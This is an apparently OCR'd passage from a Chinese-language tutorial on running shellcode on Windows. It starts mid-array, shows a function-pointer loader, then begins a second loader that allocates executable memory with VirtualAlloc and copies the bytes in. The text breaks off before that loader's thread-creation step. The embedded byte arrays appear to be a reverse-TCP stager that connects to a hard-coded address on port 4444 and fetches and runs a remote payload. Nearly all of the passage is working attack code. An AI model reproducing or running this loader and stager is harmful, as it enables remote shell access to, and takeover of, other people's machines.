 ```cpp
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {   
	((void(*)(void)) & buf)();  //执行ShellCode
}
```



# 3.创建线程加载

上述两种方法都需要将data节的内存设置成可读可写可执行,  以下这段代码的主要作用是在内存中分配一段可执行的内存空间，将buf数组中的内容复制到该内存空间，并创建一个新线程来执行这段内存中的代码

```cpp
#include <Windows.h>

unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";


void main() {

	// 申请一块可进行读写操作的内存
    LPVOID pMemory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 将buf数组中的内容复制到刚刚分配的内存中
    RtlMoveMemory(pMemory, buf, sizeof(buf));

```